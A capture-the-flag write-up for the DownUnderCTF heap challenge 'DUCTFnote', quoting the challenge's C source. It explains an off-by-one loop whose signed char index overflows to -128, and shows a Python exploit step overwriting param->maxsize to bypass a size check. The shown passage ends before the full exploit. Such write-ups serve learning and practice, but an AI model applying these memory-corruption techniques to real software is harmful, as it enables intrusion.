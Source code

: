 # DownUnderCTF - DUCTFnote (471 points)

DUCTFnote was a heap exploitation challenge.  
The main difficulty was that we could only have one active note at a time, so if we create a new note, the old one is no longer accessible.  

# Source code analysis

I spotted one bug in the [source code](https://github.com/ret2school/ctf/blob/master/2021/down_under_ctf/pwn/ductf_note/ductfnote.c) which leads to another bug :  
```c
135 void edit_note(datanote_t * note) {
136         if(!note) {
137                 printf("No Note.\n");
138                 return;
139         }
140
141         signed char idx = 0;
142         while(idx <= note->size) { // note->size can takes values from 0 to 127 (0x7f)
143                 *(&(note->data)+idx) = fgetc(stdin);
144                 if (*(&(note->data)+idx) == '\n') {*(&(note->data)+idx) = '\0'; break;}
145                 idx++;
146         }
147 }
```
In the function `edit_note` the condition of the while is incorrect and the loop is executed once too often : `while(idx <= note->size)` should have been `while(idx < note->size)`.  
Thanks to this bug, we can trigger an integer overflow : `idx` is a `signed char`, we know that a `char` takes 1 byte in memory, so a `signed char` can takes values from -128 to 127, if `note->size` equals 127, then `idx++` will trigger the integer overflow and `idx` will have the value -128, it allows us to write data from `&note->data - 128` to `&note->data + 127` (ie before `note->data`).  


# Overwriting `param->maxsize`

Using these bugs, we can overwrite `param->maxsize` with `0xffffffff` :
```py
# set maxsize to 0xffffffff (max value on 4 bytes) -> integer overflow in create_note allows us to     malloc small chunks
create_note(127)
edit_note(b"A"*127 + b"B"*85 + p64(0x21) + p32(0xffffffff))
```

It allows us to malloc any size and even small size :  
```c
109 datanote_t * create_note(unsigned int size, param_t *params) {
110         if (size > params->maxsize) {
111                 printf("Note too big.\n");
112                 return 0;
113         }
114         int allocsize = size | 0x80;
115         datanote_t * note = (datanote_t*)malloc(allocsize + 8);
116         note->size = size;
117         return note;
118 }
```
We will always skip the `if` as we overwrote `param->maxsize` with the maximal value for an int.  
